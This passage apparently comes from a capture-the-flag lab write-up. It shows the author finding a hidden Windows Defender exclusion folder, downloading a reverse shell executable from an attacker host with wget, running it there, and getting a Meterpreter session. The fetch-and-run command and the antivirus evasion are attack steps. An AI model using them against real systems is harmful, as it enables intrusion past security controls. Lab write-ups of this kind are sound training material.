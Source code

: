 

It fails because of AV.

#### Defender Bypass

`C:\Utils` looks empty, but running with `-force` shows a single hidden
file:



    PS C:\Utils> ls -force

        Directory: C:\Utils

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a-h--        12/21/2021   6:41 PM            148 desktop.ini
     
    PS C:\Utils> 
    cat .\desktop.ini
    [.ShellClassInfo]
    InfoTip=Directory for Testing Files without Defender



The registry confirms this:



    PS C:\Utils> 
    reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
     
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths
        C:\Utils    REG_DWORD    0x0
        C:\Windows\System32    REG_DWORD    0x0



There are actually two, but I can't write to `C:\Windows\System32` as a
non-privileged user.

#### Upload and Execution

I'll upload the reverse shell again, this time into `C:\Utils`:



    PS C:\Utils> wget 10.10.14.6/rev.exe -outfile r.exe



Once it's there, I'll run it:



    PS C:\Utils> .\r.exe



It hangs there without returning, but at `msfconsole`:



    msf6 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Sending stage (200774 bytes) to 10.10.11.145
    [*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.145:49857) at 2022-06-07 17:39:49 +0000
